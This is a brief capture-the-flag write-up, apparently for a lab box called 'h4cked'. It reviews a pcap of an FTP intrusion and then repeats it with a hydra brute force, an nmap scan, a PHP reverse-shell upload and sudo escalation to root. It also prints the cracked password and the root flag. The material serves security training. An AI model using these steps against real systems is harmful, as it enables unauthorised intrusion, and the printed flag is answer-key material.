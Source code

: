 > h4cked

We got a pcap file and following the TCP stream we can find many details.

1. Attacker tried to enter ftp
2. Tried cracking using hydra
3. Uploaded a shell in ftp 
4. Got a reverse shell
5. Downloaded Reptile rootkit.

# Steps

hydra -l jenny -P /usr/share/wordlists/rockyou.txt -vV $IP ftp

```
[21][ftp] host: 10.10.24.164   login: jenny   password: 987654321
```

Let's get shell.php to local machine and make changes and put it to ftp.

# Nmap

nmap -sC -sV -T4 -Pn -vv -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 2.0.8 or later
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Accessing `http://10.10.24.164/shell.php` we can get a reverse shell.

su jenny
sudo -l => all
sudo su

We are in as root!!

# root.txt

```
ebcefd66ca4b559d17b440b6e67fd0fd
```